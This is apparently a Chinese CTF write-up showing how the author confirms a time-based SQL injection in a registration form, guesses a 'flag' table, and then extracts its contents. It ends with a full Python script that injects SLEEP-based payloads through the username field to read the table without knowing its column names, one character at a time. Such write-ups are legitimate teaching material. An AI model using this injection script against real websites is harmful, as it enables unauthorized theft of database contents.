  ![YNuIv6.png](https://s1.ax1x.com/2020/05/12/YNuIv6.png)


![YNu8jf.png](https://s1.ax1x.com/2020/05/12/YNu8jf.png)
真的话sleep被成功执行
![YNu5gx.png](https://s1.ax1x.com/2020/05/12/YNu5gx.png)

假的话 直接报错
![YNu3gP.png](https://s1.ax1x.com/2020/05/12/YNu3gP.png)

表中也没有任何多余数据
![YNu481.png](https://s1.ax1x.com/2020/05/12/YNu481.png)

 然后猜表为flag,通过下面也得到证实，返回结果为1
 ```
 select count(*) from flag
 ```

最后无列名注入,脚本如下

![Y3OlUP.png](https://s1.ax1x.com/2020/05/10/Y3OlUP.png)
```python
import requests
import urllib
import time

url = r'http://89feb45bce554a18a2d7900dac0db32dd3f2896c50964e63.cloudgame1.ichunqiu.com/register_do.php'
result = ''

flag = ''

for x in range(1,50) :
	max = 127
	min = 32
	mid = (max + min) //2

	while min <max :
		#sql = "select concat(`1`,`2`,`3`) from (select 1,2,3 union select * from flag)a;"
		sql = "select a from (select 1,2 as a union select * from flag)x limit 1,1"

		payload = "'||(SELECT CASE WHEN if(ascii(substr(({2}),{0},1))>{1},1,0) THEN SLEEP(2) ELSE 'anyValue' END FROM ((SELECT 'value1' AS nameIt) UNION (SELECT 'value2' AS nameIt)) TEST)||'".format(x,mid,sql)
		params = {
			'username':payload,
			'password':123
			}

		#print payload
		try:
			old = time.time()
			res = requests.post(url,data = params)
			if time.time() - old >1 :   # zhen
				min = mid +1
			else:
				max = mid
		except Exception as e:
			print  e
		mid = (max + min)// 2

	flag = flag + chr(int(mid))
	print flag

```